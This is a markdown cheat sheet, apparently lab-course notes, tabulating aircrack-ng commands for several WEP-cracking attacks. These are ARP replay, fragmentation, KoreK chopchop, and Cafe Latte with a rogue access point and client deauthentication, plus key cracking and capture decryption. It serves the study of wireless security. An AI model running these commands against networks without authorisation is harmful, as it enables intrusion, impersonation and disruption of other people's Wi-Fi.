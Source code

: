 # ARP Request Replay Attack

| Command                                                     | Description                                                                                           |
| ----------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| `sudo airmon-ng start wlan0`<br>                            | Enable monitor mode.                                                                                  |
| `iwconfig`                                                  | Configure wireless interfaces / confirm monitor mode is enabled.                                      |
| `sudo airodump-ng wlan0mon -c 1 -w WEP`                     | Scan for available Wi-Fi networks and their associated clients, saving the traffic to a capture file. |
| `sudo aireplay-ng -3 -b <AP_MAC> -h <Station_MAC> wlan0mon` | Launch ARP Request Replay attack.                                                                     |
| `sudo aircrack-ng -b <AP_MAC> WEP-01.cap`                   | Crack the WEP key using the PTW statistical attack.                                                   |



# Fragmentation Attack

| Command                                                                                                                  | Description                                                                                           |
| ------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------- |
| `sudo airmon-ng start wlan0`                                                                                             | Enable monitor mode.                                                                                  |
| `sudo airodump-ng wlan0mon -c 1 -w WEP`                                                                                  | Scan for available Wi-Fi networks and their associated clients, saving the traffic to a capture file. |
| `sudo aireplay-ng -5 -b <AP_MAC> -h <station_MAC> wlan0mon`                                                              | Initiate the fragmentation attak                                                                      |
| `sudo tcpdump -s 0 -n -e -r replay_scr-0805-191842.cap`                                                                  | Identify the source and destination IP addresses                                                      |
| `packetforge-ng -0 -a <AP_MAC> -h <Station_MAC> -k <AP_IP> -l <Station_IP> -y fragment-0805-191851.xor -w forgedarp.cap` | Forge an ARP request using the captured PRGA (.xor) bytes.                                            |
| `sudo aireplay-ng -2 -r forgedarp.cap -h <Source_MAC> wlan0mon`                                                          | Inject the forged packet using interactive packet replay.                                             |
| `sudo aireplay-ng -3 -b <AP_MAC> -h <Station_MAC> wlan0mon`                                                              | Launch ARP Request Replay attack (to accelerate IV generation.)                                       |
| `sudo aircrack-ng -b <AP_MAC> WEP-01.cap`                                                                                | Crack the WEP key using the PTW statistical attack.                                                   |

# Korek Chop Chop Attack

| Command                                                                                                                  | Description                                                     |
| ------------------------------------------------------------------------------------------------------------------------ | --------------------------------------------------------------- |
| `sudo aireplay-ng -4 -b <AP_MAC> -h <Station_MAC> wlan0mon`<br>                                                          | Start the Korek Chop Chop attack.                               |
| `sudo tcpdump -s 0 -n -e -r replay_dec-0805-221220.cap`                                                                  | Identify the source and destination IP addresses.               |
| `packetforge-ng -0 -a <AP_MAC> -h <Station_MAC> -k <AP_IP> -l <Station_IP> -y fragment-0805-191851.xor -w forgedarp.cap` | Forge an ARP request using the captured PRGA (.xor) bytes.      |
| `sudo aireplay-ng -2 -r forgedarp.cap -h <Source_MAC> wlan0mon`                                                          | Inject the forged packet using interactive packet replay.       |
| `sudo aireplay-ng -3 -b <AP_MAC> -h <Station_MAC> wlan0mon`                                                              | Launch ARP Request Replay attack (to accelerate IV generation.) |
| `sudo aircrack-ng -b <AP_MAC> WEP-01.cap`                                                                                | Crack the WEP key using the PTW statistical attack.             |

# The Cafe Latte Attack

| Command                                                                | Description                                                                                |
| ---------------------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `sudo aireplay-ng -6 -D -b <AP_MAC> -h <Station_MAC> wlan0mon`<br>     | Start the Cafe Latte attack.                                                               |
| `sudo airbase-ng -c 1 -a <AP_BSSID>  -e "<AP_ESSID>" wlan0mon -W 1 -L` | Launch fake access point. Our rogue AP should have identical ESSID/BSSID as the target AP. |
| `sudo aireplay-ng -0 10 -a <AP_MAC> -c <Station_MAC>  wlan0mon`        | De-authenticate a connected station.                                                       |
| `sudo aircrack-ng -b <AP_MAC> WEP-01.cap`                              | Crack the WEP key using the PTW statistical attack.                                        |


# Additional WEP Cracking

| Command                                                                                                        | Description                                                    |
| -------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| `aircrack-ng -S`                                                                                               | Benchmark CPU performance.                                     |
| `sudo airodump-ng wlan0mon -c 1 -w HTB --ivs`                                                                  | Capture only initialization vectors.                           |
| `aircrack-ng -K HTB.ivs`                                                                                       | Crack the WEP key using the Korek method.                        |
| `airdecap-ng -w <hex_key> WEP-01.cap`                                                                          | Decrypt a WEP-encrypted capture file.                          |
